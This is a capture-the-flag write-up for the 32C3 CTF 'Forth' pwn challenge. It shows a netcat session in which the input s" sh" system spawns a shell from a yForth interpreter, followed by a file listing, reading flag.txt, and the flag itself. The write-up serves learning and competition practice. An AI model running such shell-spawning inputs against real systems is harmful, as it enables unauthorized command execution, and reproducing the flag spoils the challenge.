 ```yaml
---
title: "32C3CTF - Forth (Pwn 150)"
header:
  overlay_image: /assets/images/32c3/forth/header.jpg
  overlay_filter: 0.5
tags:
  - 32c3
  - writeup
  - pwn
---
```


Remote code execution with a code injection vulnerability in a Forth
interpreter.

## Challenge Description

#### Points

150

#### Description

```
Connect to 136.243.194.49:1024 and get a shell.
```

## Solution

When we connect to the IP address given, we are greeted by a Forth interpreter.

```shell
$ nc 136.243.194.49 1024
yForth? v0.2  Copyright (C) 2012  Luca Padovani
This program comes with ABSOLUTELY NO WARRANTY.
This is free software, and you are welcome to redistribute it
under certain conditions; see LICENSE for details.
ls
[ls] error(2): unknown word.
1 .
1 ok
```

We can execute system commands in yForth with 'system' so we can get a shell
pretty easily:

```shell
$ nc 136.243.194.49 1024
yForth? v0.2  Copyright (C) 2012  Luca Padovani
This program comes with ABSOLUTELY NO WARRANTY.
This is free software, and you are welcome to redistribute it
under certain conditions; see LICENSE for details.
s" sh" system
sh: 0: can't access tty; job control turned off
$
```

From here, we explore the file system and read the flag:

```shell
$ ls -la
total 120
drwxr-xr-x 2 root root  4096 Dec 27 18:26 .
drwxr-xr-x 3 root root  4096 Dec 23 18:06 ..
-rw-r--r-- 1 root root   220 Dec 23 18:06 .bash_logout
-rw-r--r-- 1 root root  3771 Dec 23 18:06 .bashrc
-rw-r--r-- 1 root root    38 Dec 26 22:48 flag.txt
-rw-r--r-- 1 root root   675 Dec 23 18:06 .profile
-rw-r--r-- 1 root root  2474 Dec 26 22:27 README.gpl
-rwxr-xr-x 1 root root    84 Dec 27 18:11 run.sh
-rwxr-xr-x 1 root root 86512 Dec 26 22:27 yforth
$ cat flag.txt
32C3_a8cfc6174adcb39b8d6dc361e888f17b
$
```

Flag: **32C3\_a8cfc6174adcb39b8d6dc361e888f17b**
